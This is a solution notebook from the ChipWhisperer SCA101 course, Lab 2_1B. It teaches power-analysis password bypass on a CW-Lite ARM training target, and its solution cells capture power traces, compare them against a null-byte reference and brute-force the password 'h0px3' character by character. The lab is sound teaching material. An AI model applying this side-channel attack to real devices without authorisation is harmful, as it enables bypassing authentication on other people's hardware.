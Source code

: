 SOLUTION WITH SIMULATION: Part 2, Topic 1, Lab B: Power Analysis for Password Bypass
====================================================================================



**SUMMARY:** *This tutorial will introduce you to breaking devices by
determining when a device is performing certain operations. Our target
device will be performing a simple password check, and we will
demonstrate how to perform a basic power analysis.*

**LEARNING OUTCOMES:**

-  How power can be used to determine timing information.
-  Plotting multiple iterations while varying input data to find
   interesting locations.
-  Using difference of waveforms to find interesting locations.
-  Performing power captures with ChipWhisperer hardware (hardware only)

Prerequisites
-------------

Hold up! Before you continue, check you’ve done the following tutorials:

-  ☑ Jupyter Notebook Intro (you should be OK with plotting & running
   blocks).
-  ☑ SCA101 Intro (you should have an idea of how to get
   hardware-specific versions running).

Power Trace Gathering
---------------------

At this point you’ve got to insert code to perform the power trace
capture. There are two options here: \* Capture from physical device. \*
Read from a file.

You get to choose your adventure - see the two notebooks with the same
name of this, but called ``(SIMULATED)`` or ``(HARDWARE)`` to continue.
Inside those notebooks you should get some code to copy into the
following section, which will define the capture function.

Be sure you get the ``"✔️ OK to continue!"`` print once you run the next
cell, otherwise things will fail later on!

Choose your setup options here:


**In [1]:**

.. code:: ipython3

    SCOPETYPE = 'OPENADC'
    PLATFORM = 'CWLITEARM'
    VERSION = 'HARDWARE'


**In [2]:**

.. code:: ipython3

    if VERSION == 'HARDWARE':
        %run "Lab 2_1B - Power Analysis for Password Bypass (HARDWARE).ipynb"
    elif VERSION == 'SIMULATED':
        %run "Lab 2_1B - Power Analysis for Password Bypass (SIMULATED).ipynb"


**Out [2]:**



.. parsed-literal::

    SS_VER set to SS_VER_1_0
    rm -f -- basic-passwdcheck-CWLITEARM.hex
    rm -f -- basic-passwdcheck-CWLITEARM.eep
    rm -f -- basic-passwdcheck-CWLITEARM.cof
    rm -f -- basic-passwdcheck-CWLITEARM.elf
    rm -f -- basic-passwdcheck-CWLITEARM.map
    rm -f -- basic-passwdcheck-CWLITEARM.sym
    rm -f -- basic-passwdcheck-CWLITEARM.lss
    rm -f -- objdir/\*.o
    rm -f -- objdir/\*.lst
    rm -f -- basic-passwdcheck.s simpleserial.s stm32f3_hal.s stm32f3_hal_lowlevel.s stm32f3_sysmem.s
    rm -f -- basic-passwdcheck.d simpleserial.d stm32f3_hal.d stm32f3_hal_lowlevel.d stm32f3_sysmem.d
    rm -f -- basic-passwdcheck.i simpleserial.i stm32f3_hal.i stm32f3_hal_lowlevel.i stm32f3_sysmem.i
    .
    Welcome to another exciting ChipWhisperer target build!!
    arm-none-eabi-gcc.exe (GNU Arm Embedded Toolchain 9-2020-q2-update) 9.3.1 20200408 (release)
    Copyright (C) 2019 Free Software Foundation, Inc.
    This is free software; see the source for copying conditions.  There is NO
    warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
    
    .
    Compiling C: basic-passwdcheck.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_0 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/basic-passwdcheck.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/basic-passwdcheck.o.d basic-passwdcheck.c -o objdir/basic-passwdcheck.o 
    .
    Compiling C: .././simpleserial/simpleserial.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_0 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial.o.d .././simpleserial/simpleserial.c -o objdir/simpleserial.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_hal.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_0 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_hal.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f3_hal.o.d .././hal/stm32f3/stm32f3_hal.c -o objdir/stm32f3_hal.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_hal_lowlevel.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_0 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_hal_lowlevel.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f3_hal_lowlevel.o.d .././hal/stm32f3/stm32f3_hal_lowlevel.c -o objdir/stm32f3_hal_lowlevel.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3_sysmem.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_0 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3_sysmem.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f3_sysmem.o.d .././hal/stm32f3/stm32f3_sysmem.c -o objdir/stm32f3_sysmem.o 
    .
    Assembling: .././hal/stm32f3/stm32f3_startup.S
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -x assembler-with-cpp -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -DF_CPU=7372800 -Wa,-gstabs,-adhlns=objdir/stm32f3_startup.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ .././hal/stm32f3/stm32f3_startup.S -o objdir/stm32f3_startup.o
    .
    Linking: basic-passwdcheck-CWLITEARM.elf
    arm-none-eabi-gcc -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_0 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DF_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/basic-passwdcheck.o -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/basic-passwdcheck-CWLITEARM.elf.d objdir/basic-passwdcheck.o objdir/simpleserial.o objdir/stm32f3_hal.o objdir/stm32f3_hal_lowlevel.o objdir/stm32f3_sysmem.o objdir/stm32f3_startup.o --output basic-passwdcheck-CWLITEARM.elf --specs=nano.specs --specs=nosys.specs -T .././hal/stm32f3/LinkerScript.ld -Wl,--gc-sections -lm -Wl,-Map=basic-passwdcheck-CWLITEARM.map,--cref   -lm  
    .
    Creating load file for Flash: basic-passwdcheck-CWLITEARM.hex
    arm-none-eabi-objcopy -O ihex -R .eeprom -R .fuse -R .lock -R .signature basic-passwdcheck-CWLITEARM.elf basic-passwdcheck-CWLITEARM.hex
    .
    Creating load file for EEPROM: basic-passwdcheck-CWLITEARM.eep
    arm-none-eabi-objcopy -j .eeprom --set-section-flags=.eeprom="alloc,load" \
    --change-section-lma .eeprom=0 --no-change-warnings -O ihex basic-passwdcheck-CWLITEARM.elf basic-passwdcheck-CWLITEARM.eep \|\| exit 0
    .
    Creating Extended Listing: basic-passwdcheck-CWLITEARM.lss
    arm-none-eabi-objdump -h -S -z basic-passwdcheck-CWLITEARM.elf > basic-passwdcheck-CWLITEARM.lss
    .
    Creating Symbol Table: basic-passwdcheck-CWLITEARM.sym
    arm-none-eabi-nm -n basic-passwdcheck-CWLITEARM.elf > basic-passwdcheck-CWLITEARM.sym
    Size after:
       text	   data	    bss	    dec	    hex	filename
       9680	    108	   1204	  10992	   2af0	basic-passwdcheck-CWLITEARM.elf
    +--------------------------------------------------------
    + Default target does full rebuild each time.
    + Specify buildtarget == allquick == to avoid full rebuild
    +--------------------------------------------------------
    +--------------------------------------------------------
    + Built for platform CW-Lite Arm \(STM32F3\) with:
    + CRYPTO_TARGET = NONE
    + CRYPTO_OPTIONS = AES128C
    +--------------------------------------------------------
    




.. parsed-literal::

    .././simpleserial/simpleserial.c: In function 'simpleserial_get':
    .././simpleserial/simpleserial.c:131:10: warning: variable 'ret' set but not used [-Wunused-but-set-variable]
      131 \|  uint8_t ret[1];
          \|          ^~~
    




.. parsed-literal::

    Serial baud rate = 38400
    INFO: Found ChipWhisperer😍
    Serial baud rate = 115200
    Detected known STMF32: STM32F302xB(C)/303xB(C)
    Extended erase (0x44), this can take ten seconds or more
    Attempting to program 9795 bytes at 0x8000000
    STM32F Programming flash...
    STM32F Reading flash...
    Verified flash OK, 9795 bytes
    Serial baud rate = 38400
    



**In [3]:**

.. code:: ipython3

    trace_test = cap_pass_trace("h\n")
    
    #Basic sanity check
    assert(len(trace_test) == 3000)
    print("✔️ OK to continue!")


**Out [3]:**



.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    




.. parsed-literal::

    ✔️ OK to continue!
    


Exploration
-----------

So what can we do with this? While first off - I’m going to cheat, and
tell you that we have a preset password that starts with ``h``, and it’s
5 characters long. But that’s the only hint so far - what can you do?
While first off, let’s try plotting a comparison of ``h`` to something
else.

If you need a reminder of how to do a plot - see the matplotlib section
of the **Jupyter Introduction** notebook.

The following cell shows you how to capture one power trace with ``h``
sent as a password. From there:

1. Try adding the plotting code and see what it looks like.
2. Send different passwords to the device. We’re only going to look at
   the difference between a password starting with ``h`` and something
   else right now.
3. Plot the different waveforms.


**In [4]:**

.. code:: ipython3

    #Example - capture 'h' - end with newline '\n' as serial protocol expects that
    trace_h = cap_pass_trace("h\n")
    
    print(trace_h)
    
    # ###################
    # START SOLUTION
    # ###################
    %matplotlib inline
    import matplotlib.pyplot as plt
    plt.figure()
    plt.plot(cap_pass_trace("h\n"))
    plt.plot(cap_pass_trace("0\n"))
    plt.show()
    # ###################
    # END SOLUTION
    # ###################


**Out [4]:**



.. parsed-literal::

    [ 0.00488281 -0.21386719 -0.15527344 ... -0.19140625 -0.13574219
     -0.10742188]
    




.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    



.. image:: img/OPENADC-CWLITEARM-courses_sca101SOLN_Lab2_1B-PowerAnalysisforPasswordBypass_13_2.png


For reference, the output should look something like this:

If you are using the ``%matplotlib notebook`` magic, you can zoom in at
the start. What you want to notice is there is two code paths taken,
depending on a correct or incorrect path. Here for example is a correct
& incorrect character processed:

OK interesting – what’s next? Let’s plot every possible password
character we could send.

Our password implementation only recognizes characters in the list
``abcdefghijklmnopqrstuvwxyz0123456789``, so we’re going to limit it to
those valid characters for now.

Write some code in the following block that implements the following
algorithm:

::

   for CHARACTER in LIST_OF_VALID_CHARACTERS:
       trace = cap_pass_trace(CHARACTER + "\n")
       plot(trace)
       

The above isn’t quite valid code - so massage it into place! You also
may notice the traces are way too long - you might want to make a more
narrow plot that only does the first say 500 samples of the power trace.


**In [5]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    from tqdm.notebook import tqdm
    plt.figure()
    for c in tqdm('abcdefghijklmnopqrstuvwxyz0123456789'):
        trace = cap_pass_trace(c + "\n")
        plt.plot(trace[0:500])
    
    # ###################
    # END SOLUTION
    # ###################


**Out [5]:**





.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    






.. image:: img/OPENADC-CWLITEARM-courses_sca101SOLN_Lab2_1B-PowerAnalysisforPasswordBypass_16_3.png


The end result should be if you zoom in, you’ll see there is a location
where a single “outlier” trace doesn’t follow the path of all the other
traces. That is great news, since it means we learn something about the
system from power analysis.

Using your loop - you can also try modifying the analysis to capture a
correct “first” character, and then every other wrong second character.
Do you see a difference you might be able to detect?

The pseudo-code would look something like this:

::

   for CHARACTER in LIST_OF_VALID_CHARACTERS:
       trace = cap_pass_trace("h" + CHARACTER + "\n")
       plot(trace)

Give that a shot in your earlier code-block, and then let’s try and
automate this attack to understand the data a little better.

Automating an Attack against One Character
------------------------------------------

To start with - we’re going to automate an attack against a **single**
character of the password. Since we don’t know the password (let’s
assume), we’ll use a strategy of comparing all possible inputs together.

An easy way to do this might be to use something that we know can’t be
part of the valid password. As long as it’s processed the same way, this
will work just fine. So for now, let’s use a password as ``0x00`` (i.e.,
a null byte). We can compare the null byte to processing something else:


**In [6]:**

.. code:: ipython3

    %matplotlib inline
    import matplotlib.pylab as plt
    
    plt.figure()
    ref_trace = cap_pass_trace("\x00\n")[0:500]
    plt.plot(ref_trace)
    other_trace = cap_pass_trace("c\n")[0:500]
    plt.plot(other_trace)


**Out [6]:**



.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    




.. parsed-literal::

    [<matplotlib.lines.Line2D at 0x2cc8da9be08>]




.. image:: img/OPENADC-CWLITEARM-courses_sca101SOLN_Lab2_1B-PowerAnalysisforPasswordBypass_20_2.png


This will plot a trace with an input of “:raw-latex:`\x00`” - a null
password! This is an invalid character, and seems to be processed as any
other invalid password.

Let’s make this a little more obvious, and plot the difference between a
known reference & every other capture. You need to write some code that
does something like this:

::

   ref_trace = cap_pass_trace( "\x00\n")

   for CHARACTER in LIST_OF_VALID_CHARACTERS:
       trace = cap_pass_trace(CHARACTER + "\n")
       plot(trace - ref_trace)

Again, you may need to modify this a little bit such as adding code to
make a new ``figure()``. Also notice in the above example how I reduced
the number of samples.


**In [7]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    %matplotlib inline
    import matplotlib.pylab as plt
    
    plt.figure()
    ref_trace = cap_pass_trace("\x00\n")[0:500]
    
    for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
        trace = cap_pass_trace(c + "\n")[0:500]
        plt.plot(trace - ref_trace)
    
    # ###################
    # END SOLUTION
    # ###################
        


**Out [7]:**



.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    



.. image:: img/OPENADC-CWLITEARM-courses_sca101SOLN_Lab2_1B-PowerAnalysisforPasswordBypass_22_1.png


OK great - hopefully you now see one major “difference”. It should look
something like this:

What do do now? Let’s make this thing automatically detect such a large
difference. Some handy stuff to try out is the ``np.sum()`` and
``np.abs()`` function.

The first one will get absolute values:

.. code:: python

   import numpy as np
   np.abs([-1, -3, 1, -5, 6])

       Out[]: array([1, 3, 1, 5, 6])

The second one will add up all the numbers.

.. code:: python

   import numpy as np    
   np.sum([-1, -3, 1, -5, 6])

       Out[]: -2

Using just ``np.sum()`` means positive and negative differences will
cancel each other out - so it’s better to do something like
``np.sum(np.abs(DIFF))`` to get a good number indicating how “close” the
match was.


**In [8]:**

.. code:: ipython3

    import numpy as np
    np.abs([-1, -3, 1, -5, 6])


**Out [8]:**



.. parsed-literal::

    array([1, 3, 1, 5, 6])




**In [9]:**

.. code:: ipython3

    import numpy as np
    np.sum([-1, -3, 1, -5, 6])


**Out [9]:**



.. parsed-literal::

    -2




**In [10]:**

.. code:: ipython3

    np.sum(np.abs([-1, -3, 1, -5, 6]))


**Out [10]:**



.. parsed-literal::

    16



Taking your above loop, modify it to print an indicator of how closely
this matches your trace. Something like the following should work:

::

   ref_trace = cap_pass_trace( "\x00\n")

   for CHARACTER in LIST_OF_VALID_CHARACTERS:
       trace = cap_pass_trace(CHARACTER + "\n")
       diff = SUM(ABS(trace - ref_trace))

       print("{:1} diff = {:2}".format(CHARACTER, diff))


**In [11]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    ref_trace = cap_pass_trace( "\x00\n")
    
    for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
        trace = cap_pass_trace(c + "\n")
        diff = np.sum(np.abs(trace - ref_trace))
        
        print("{:1} diff = {:2}".format(c, diff))
        
    # ###################
    # END SOLUTION
    # ###################


**Out [11]:**



.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    




.. parsed-literal::

    a diff = 9.5078125
    b diff = 9.9482421875
    c diff = 5.5341796875
    d diff = 4.7890625
    e diff = 5.6484375
    f diff = 5.3720703125
    g diff = 4.8798828125
    h diff = 203.6220703125
    i diff = 5.9462890625
    j diff = 8.564453125
    k diff = 9.1689453125
    l diff = 6.810546875
    m diff = 7.2900390625
    n diff = 10.271484375
    o diff = 9.0498046875
    p diff = 6.279296875
    q diff = 4.5703125
    r diff = 8.599609375
    s diff = 10.2041015625
    t diff = 5.4453125
    u diff = 10.3623046875
    v diff = 5.9013671875
    w diff = 8.4208984375
    x diff = 9.193359375
    y diff = 7.3046875
    z diff = 6.83984375
    0 diff = 8.8134765625
    1 diff = 8.4208984375
    2 diff = 7.5908203125
    3 diff = 8.5625
    4 diff = 7.9375
    5 diff = 8.5439453125
    6 diff = 6.048828125
    7 diff = 9.4482421875
    8 diff = 4.75390625
    9 diff = 6.462890625
    


Now the easy part - modify your above code to automatically print the
correct password character. This should be done with a comparison of the
``diff`` variable - based on the printed characters, you should see one
that is ‘higher’ than the others. Set a threshold somewhere reasonable
(say I might use ``25.0`` based on one run).

Running a Full Attack
---------------------

Finally - let’s finish this off. Rather than attacking a single
character, we need to attack each character in sequence.

If you go back to the plotting of differences, you can try using the
correct first character & wrong second character. The basic idea is
exactly the same as before, but now we loop through 5 times, and just
build up the password based on brute-forcing each character.

Take a look at the following for the basic pseudo-code:

::

   guessed_pw = "" #Store guessed password so far

   do a loop 5 times (max password size):
       
       ref_trace = capture power trace(guessed_pw + "\x00\n")
       
       for CHARACTER in LIST_OF_VALID_CHARACTERS:
           trace = capture power trace (guessed_pw + CHARACTER + newline)
           diff = SUM(ABS(trace - ref_trace))
           
           if diff > THRESHOLD:
               
               guessed_pwd += c
               print(guessed_pw)
               
               break


**In [12]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    guessed_pw = ""
    
    
    for _ in range(0, 5):  
    
        ref_trace = cap_pass_trace(guessed_pw + "\x00\n")
        
        for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
            trace = cap_pass_trace(guessed_pw + c + "\n")
            diff = np.sum(np.abs(trace - ref_trace))
    
            if diff > 40.0:
                guessed_pw += c
                print(guessed_pw)
                break
    
    # ###################
    # END SOLUTION
    # ###################


**Out [12]:**



.. parsed-literal::

    h
    h0
    h0p
    h0px
    h0px3
    


You should get an output that looks like this:

::

   h
   h0
   h0p
   h0px
   h0px3

If so - 🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳 Congrats - you did it!!!!

If not - check some troubleshooting hints below. If you get really
stuck, check the ``SOLN`` version (there is one for both with hardware
and simulated).

Troubleshooting - Always get ‘h’
--------------------------------

Some common problems you might run into - first, if you get an output
which keeps guessing the first character:

::

   h
   hh
   hhh
   hhhh
   hhhhh

Check that when you run the ``cap_pass_trace`` inside the loop (checking
the guessed password), are you updating the prefix of the password? For
example, the old version of the code (guessing a single character)
looked like this:

::

   trace = cap_pass_trace(c + "\n")

But that is always sending our first character only! So we need to send
the “known good password so far”. In the example code something like
this:

::

   trace = cap_pass_trace(guessed_pw + c + "\n")

Where ``guessed_pw`` progressively grows with the known good start of
the password.

Troubleshooting - Always get ‘a’
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

This looks like it’s always matching the first character:

::

   h
   ha
   haa
   haaa
   haaaa

Check that you update the ``ref_trace`` - if you re-use the original
reference trace, you won’t be looking at a reference where the first N
characters are good, and the remaining characters are bad. An easy way
to do this is again using the ``guessed_pw`` variable and appending a
null + newline:

::

   trace = cap_pass_trace(guessed_pw + "\x00\n")

--------------

NO-FUN DISCLAIMER: This material is Copyright (C) NewAE Technology Inc.,
2015-2020. ChipWhisperer is a trademark of NewAE Technology Inc.,
claimed in all jurisdictions, and registered in at least the United
States of America, European Union, and Peoples Republic of China.

Tutorials derived from our open-source work must be released under the
associated open-source license, and notice of the source must be
*clearly displayed*. Only original copyright holders may license or
authorize other distribution - while NewAE Technology Inc. holds the
copyright for many tutorials, the github repository includes community
contributions which we cannot license under special terms and **must**
be maintained as an open-source release. Please contact us for special
permissions (where possible).

THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY
CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT,
TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE
SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.


**In [13]:**

.. code:: ipython3

    assert guessed_pw == 'h0px3', "Failed to break password"

